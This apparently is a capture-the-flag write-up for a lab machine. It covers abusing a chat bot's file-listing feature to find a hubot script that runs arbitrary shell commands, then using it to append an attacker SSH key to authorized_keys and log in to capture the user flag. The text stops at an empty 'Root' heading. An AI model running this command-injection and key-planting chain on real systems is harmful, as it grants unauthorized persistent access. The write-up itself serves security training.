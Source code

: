 We register an account and see that there is bot `recyclops` that allow to request and view
files. We can start a private discussion with it and query its help menu.

We enumerate the working directory using the `file` command and discover that
`file ../` is working.
We enumerate the folder and found the bot home directory containing a scripts
folder with a `run.js` script inside.

    :::JavaScript
    // Description:
    // Runs a command on hubot
    // TOTAL VIOLATION of any and all security!
    //
    // Commands:
    // hubot run <command> - runs a command on hubot host

    module.exports = function(robot) {
      robot.respond("/RUN (.*)$/i", function(msg) {
          console.log(msg);
          var cmd = msg.match[1];
          msg.send("Running " + cmd);
          var exec = require('child_process').exec;
          exec(cmd, function(error, stdout, stderr) {
              if (error) {
              msg.send(error);
              msg.send(stderr);
              } else {
              msg.send(stdout);
              }
              });
          });
    };

We use it and run `id`. We discover that the bot is running as the `dwight` user
on the box. We can directly grab the user flag but we want a shell as user.

    ::text
    run id
    uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)

We upload our SSH key on the box.

    :::text
    run echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCzB[SNIP] kali@kali' >> ~/.ssh/authorized_keys

We can then logging as `dwight` using SSH and grab the user flag.

    :::text
    $ ssh 10.129.138.109 -ldwight
    [dwight@paper ~]$ cat user.txt
    48cd829918540bb7a9bec8676f5b0024

# Root

